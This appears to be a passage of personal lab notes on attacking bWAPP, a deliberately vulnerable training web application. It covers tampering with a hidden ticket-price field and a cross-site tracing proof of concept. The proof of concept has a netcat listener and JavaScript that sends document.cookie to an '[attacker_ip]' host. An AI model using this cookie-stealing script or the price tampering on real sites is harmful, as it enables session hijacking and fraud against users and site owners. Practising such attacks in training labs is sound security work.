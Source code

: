 ```
```

### Insecure DOR (Order Tickets)
bWAPP/insecure_direct_object_ref_2.php

Use Burp to unhide hidden ticket price field, or use proxy to modify the POST param while in transit.

# A5 - Security Misconfiguration

### Cross-Site Tracing (XST) 

Doesn't work on modern browsers as there are security enforcements.  Maybe use phantomJS?

I modified the POC to use GET instead of TRACE.  Additional changes from original xst.js include making the onreadystatechange NOT inline (seems to play better with FF).

1.  Start listener on attacking machine:  nc -l 8888

2.  Modify xst.js to match your environment:


```
var xmlhttp;	
// Code for IE7+, Firefox, Chrome, Opera, Safari
if (window.XMLHttpRequest)
{
	xmlhttp=new XMLHttpRequest();
}
// Code for IE6, IE5	
else
{ 
	xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");
}	

xmlhttp.onreadystatechange=foo;

function foo()
{	
	if (xmlhttp.readyState==4 && xmlhttp.status==200)
	{	
		xmlResp=xmlhttp.responseText;
		// document.getElementById("response").innerHTML=xmlResp
		alert(xmlResp);
		document.location="http://[attacker_ip]:8888/grab.cgi?"+document.cookie;
	}
}
// xmlhttp.open("TRACE","/bWAPP/",true);
xmlhttp.open("GET","/bWAPP/",true);
// xmlhttp.withCredentials = true;
xmlhttp.send();
```
